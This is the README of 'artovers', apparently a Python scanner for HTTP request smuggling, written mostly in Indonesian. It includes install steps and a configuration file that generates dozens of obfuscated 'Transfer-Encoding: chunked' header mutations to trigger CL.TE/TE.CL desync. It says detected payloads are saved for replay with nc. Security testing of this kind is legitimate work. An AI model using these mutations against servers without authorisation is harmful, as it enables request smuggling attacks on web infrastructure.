


# artovers
Artikel takeovers using ``[POST/PUT/OPTIONS]`` Private Project 2022

## Running Automatic Reports Tool
Saya membuat software tersebut bukan untuk dipergunakan untuk hal-hal yang bersifat ilegal ataupun menentang pasal-pasal
saya membuat tools ini untuk suatu project yang akan datang dan dapat digunakan untuk kepemerintahan.

  

## Installation

1) git clone https://github.com/byteofandri/artovers.git
2) cd artovers
3) python3 artovers.py -h

  

## Config Files
File konfigurasi adalah file python yang ada di direktori ./config penyelundup. File-file ini menjelaskan konten permintaan HTTP dan mutasi pengkodean transfer yang akan diuji.


Berikut adalah contoh konten default.py:
```python
def render_template(gadget):
	RN = "\r\n"
	p = Payload()
	p.header  = "__METHOD__ __ENDPOINT__?cb=__RANDOM__ HTTP/1.1" + RN
	# p.header += "Transfer-Encoding: chunked" +RN	
	p.header += gadget + RN
	p.header += "Host: __HOST__" + RN
	p.header += "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36" + RN
	p.header += "Content-type: application/x-www-form-urlencoded; charset=UTF-8" + RN
	p.header += "Content-Length: __REPLACE_CL__" + RN
	return p


mutations["nameprefix1"] = render_template(" Transfer-Encoding: chunked")
mutations["tabprefix1"] = render_template("Transfer-Encoding:\tchunked")
mutations["tabprefix2"] = render_template("Transfer-Encoding\t:\tchunked")
mutations["space1"] = render_template("Transfer-Encoding : chunked")

for i in [0x1,0x4,0x8,0x9,0xa,0xb,0xc,0xd,0x1F,0x20,0x7f,0xA0,0xFF]:
	mutations["midspace-%02x"%i] = render_template("Transfer-Encoding:%cchunked"%(i))
	mutations["postspace-%02x"%i] = render_template("Transfer-Encoding%c: chunked"%(i))
	mutations["prespace-%02x"%i] = render_template("%cTransfer-Encoding: chunked"%(i))
	mutations["endspace-%02x"%i] = render_template("Transfer-Encoding: chunked%c"%(i))
	mutations["xprespace-%02x"%i] = render_template("X: X%cTransfer-Encoding: chunked"%(i))
	mutations["endspacex-%02x"%i] = render_template("Transfer-Encoding: chunked%cX: X"%(i))
	mutations["rxprespace-%02x"%i] = render_template("X: X\r%cTransfer-Encoding: chunked"%(i))
	mutations["xnprespace-%02x"%i] = render_template("X: X%c\nTransfer-Encoding: chunked"%(i))
	mutations["endspacerx-%02x"%i] = render_template("Transfer-Encoding: chunked\r%cX: X"%(i))
	mutations["endspacexn-%02x"%i] = render_template("Transfer-Encoding: chunked%c\nX: X"%(i))
```
Belum ada argumen masukan untuk menentukan header pelanggan dan agen pengguna Anda sendiri. Disarankan untuk membuat file konfigurasi Anda sendiri berdasarkan default.py dan memodifikasinya sesuai keinginan Anda.

Artovers hadir dengan 3 file konfigurasi: default.py (cepat), doubles.py (niche, lambat), exhaustive.py (sangat lambat)
default.py adalah yang tercepat karena mengandung lebih sedikit mutasi.

tentukan file konfigurasi menggunakan opsi baris perintah ``-c/--configfile \<configfile>``

## Payloads Directory
Di dalam direktori Artovers adalah direktori payloads. Ketika Penyelundup menemukan potensi masalah desinkronisasi CLTE atau TECL, penyelundup akan secara otomatis membuang file txt biner dari muatan yang bermasalah ke dalam direktori muatan. Semua nama file payload dianotasi dengan nama host, tipe desync, dan tipe mutasi. Gunakan muatan ini untuk nc langsung ke server atau untuk mengimpor ke alat analisis lainnya.
